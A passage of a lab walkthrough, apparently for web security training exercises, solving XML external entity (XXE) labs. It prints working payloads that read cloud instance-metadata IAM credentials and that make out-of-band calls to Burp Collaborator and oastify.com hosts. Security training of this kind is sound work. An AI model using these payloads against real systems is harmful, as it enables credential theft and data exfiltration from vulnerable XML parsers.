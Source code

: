 Setting the URL to `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` solves the lab.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```

## Lab 3: Out of Band Interaction

This lab requires us send a HTTP request to a Burp Collaborator link. This is a blind XXE example.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'http://BURP.oastify.com'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```

## Lab 4: Out of Band via XML parameter entities

This lab blocks regular external entities. Trying to use `ENTITY` results in a block:

```
$ python3 lab.py
"Entities are not allowed for security reasons"
```

Regular external entities are custom XML entities whose defined values are loaded from outside of the DTD they are declared in. This means that for this lab, I cannot define my own entities.


As such, I can use the `stockCheck` entity, which is given to me. Next, I need to figure out how NOT to use custom regular external entities. PayloadAllTheThings uses this:

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]
```

Using a `%` changes it to a parameter entity, which can only be referenced elsewhere within the DTD (hence using `stockCheck`).

Thus, the payload is as such:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % test SYSTEM 'http://vpoo93ane26oxeihvm42tgknbeh55vtk.oastify.com'> %test; ]> 
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
